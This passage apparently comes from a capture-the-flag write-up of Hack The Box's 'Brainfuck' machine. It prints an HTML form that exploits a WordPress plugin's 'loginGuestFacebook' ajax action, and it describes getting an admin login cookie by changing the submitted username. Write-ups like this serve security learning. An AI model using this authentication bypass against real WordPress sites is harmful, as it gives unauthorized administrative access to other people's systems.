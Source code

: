 ```html
<form method="post" action="http://wp/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="administrator">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```


If we run `curl -k https://brainfuck.htb/wp-admin/admin-ajax.php` we can see the following:

![curl-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Brainfuck/img/curl-13.png)


This proves that the `/wp-admin/admin-ajax.php` file exsits on the target. Though Im not sure what's the meaning of this zero. 


If we follow along the exploit notes, to pull this exploit off we need to send a request like this:

![request-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Brainfuck/img/request-14.png)


Note that I've changed the useername from `administrator` to `admin`, as this was the noted user account in the site's main page. And as you can see in the response, we got a cookie of `wordpress_logged_in` for the admin user! 


So if we browse towards `https://brainfuck.htb/wp-admin/` we should get access to the admin panel:
